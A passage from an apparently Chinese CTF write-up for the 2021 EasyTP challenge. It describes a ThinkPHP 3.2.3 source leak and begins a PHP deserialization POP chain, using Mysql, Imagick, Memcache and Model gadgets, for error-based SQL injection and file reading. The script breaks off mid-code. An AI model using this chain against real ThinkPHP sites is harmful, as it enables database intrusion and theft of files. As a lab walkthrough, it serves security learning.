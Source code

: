 ```yaml
---
title: '[红明谷CTF 2021]EasyTP'
date: 2024-11-24 16:41:50
tags: thinkphp
categories: 刷题笔记
---
```


## [红明谷CTF 2021]EasyTP

我们发现有源码泄露，下载/www.zip

我们发现thinkphp版本是3.2.3版本的

我们上网查链子 [ThinkPHP v3.2.* （SQL注入&文件读取）反序列化POP链 (f5.pm)](https://f5.pm/go-53579.html)

注意在源码中，控制器存在反序列化，我们以这个入手

![image-20241128193517682](C:/Users/11/AppData/Roaming/Typora/typora-user-images/image-20241128193517682.png)

在buu中，database=test，password=root

## 方法一：报错注入

我们使用报错注入

```php
<?php
namespace Think\Db\Driver{
    use PDO;
    class Mysql{
        protected $options = array(
            PDO::MYSQL_ATTR_LOCAL_INFILE => true // 开启才能读取文件
        );
        protected $config = array(
            "debug"    => true,
            "database" => "test", // 可换成任一存在的库
            "hostname" => "127.0.0.1",
            "hostport" => "3306",
            "charset"  => "utf8",
            "username" => "root",
            "password" => "root" // BUU环境密码为root
        );
    }
}
namespace Think\Image\Driver{
    use Think\Session\Driver\Memcache;
    class Imagick{
        private $img;
        public function __construct(){
            $this->img = new Memcache();
        }
    }
}
namespace Think\Session\Driver{
    use Think\Model;
    class Memcache{
        protected $handle;
        public function __construct(){
            $this->handle = new Model();
        }
    }
}
namespace Think{
```
